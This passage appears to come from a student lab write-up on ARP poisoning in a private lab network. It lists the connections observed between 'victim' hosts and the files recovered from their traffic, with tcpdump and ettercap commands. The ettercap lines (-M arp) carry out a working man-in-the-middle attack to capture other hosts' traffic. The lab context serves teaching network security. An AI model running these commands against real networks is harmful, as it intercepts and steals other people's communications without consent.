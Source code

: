     | client | server | request |
    | :---: | :---: | :---: |
    | 10.229.100.101 | 10.229.100.151 | HTTP example.mp3 <br> HTTP page.htm |
    | 10.229.100.154 | 10.229.100.151 | HTTP example.gif |
    | 10.229.100.154 | 10.229.100.101 | SSH |
    | 10.229.100.151 | 10.229.100.102 | DNS standard query |
    * Found broadcast message from `10.229.100.151` to `10.229.100.255` advertising NetBIOS Datagram Service.
    * Also found ping in all pairs of victim hosts.
    
3. Determine what is the service(s) to which the connections are established
    
    Answered above
    
4. Identify the nature and extract the contents of the transfers between the hosts (not just a dump of bytes, but qualitatively "what are they about"?)

    * Output files attached: `example.mp3`, `example.gif`, `page.htm`
    * Cannot determine SSH content

* The ARP activity for the period just before and just after you performed ARP poisoning
    ~~~~
     sudo timeout 20s tcpdump -l -i eth1 arp -w before.pcap
     sudo timeout 20s tcpdump -l -i eth1 arp -w after.pcap
    ~~~~
    
    Read attached `before.pcap` and `after.pcap` in tcpdump (`tcpdump -r <filename>`)
    
* Captured packets of the communication between the hosts (if many, then a compressed archive of the packet capture)
    ~~~~
    sudo ettercap -T -f 'host not 10.229.100.141' -e \S -i eth1 -M arp -j hosts.out -w a3.pcap
    ~~~~
    
    See attached `a3.pcap`
    
* Any contents (packet payload, e.g., files) that you were able to reconstruct from the communication between the victims

    See attached `example.mp3`, `example.gif`, and `page.htm`

* The output you got from ettercap
    ~~~~
    sudo ettercap -T -f 'host not 10.229.100.141' -e \S -i eth1 -M arp -j hosts.out > a3.out
    ~~~~
    See attached `a3.pcap` and `a3.out`